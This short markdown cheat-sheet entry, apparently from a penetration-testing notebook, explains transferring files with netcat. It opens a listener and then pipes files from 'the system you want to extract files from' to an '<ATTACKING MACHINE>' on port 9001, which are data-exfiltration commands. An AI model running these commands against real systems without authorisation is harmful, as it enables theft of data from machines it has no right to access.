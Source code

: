 
## NC 
You can transfer files via netcat using setting up a listener on the box you want to receive the file like so;
`nc -lvnp 9001 > <FILE>`

On the system you want to extract files from, you can 
`nc <ATTACKING MACHINE 9001 < <FILE>`
or
`cat <file> | nc <ATTACKING MACHINE> 9001`


**You may need to terminate the nc listener receiving the file as it can hang and keep the connection active** 

